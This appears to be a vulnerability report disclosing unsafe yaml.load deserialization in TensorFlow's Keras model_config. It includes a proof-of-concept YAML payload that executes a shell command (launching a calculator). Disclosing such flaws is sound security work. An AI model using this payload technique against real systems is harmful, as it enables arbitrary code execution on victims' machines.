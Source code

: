 # Description
TensorFlow is an end-to-end open source platform for machine learning. It has a comprehensive, flexible ecosystem of tools, libraries, and community resources that lets researchers push the state-of-the-art in ML and developers easily build and deploy ML-powered applications.
* **Vulnerability description**
unsafe loading of data by the yaml.load function leading to Arbitrary code execution.
# Proof of Concept
* Vulnerable code part 
```python
    config = yaml.load(yaml_string)
    //https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/keras/saving/model_config.py#L103
```
1. run exploit.py
```python
# exploit.py
import os
os.system('pip install tensorflow')
from tensorflow.python.keras.saving import model_config
payload = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
model_config.model_from_yaml(payload,None)
```
![Screenshot from 2021-01-05 06-30-32](https://user-images.githubusercontent.com/43377443/103595136-b4744a80-4f20-11eb-953a-7f862044eea4.png)

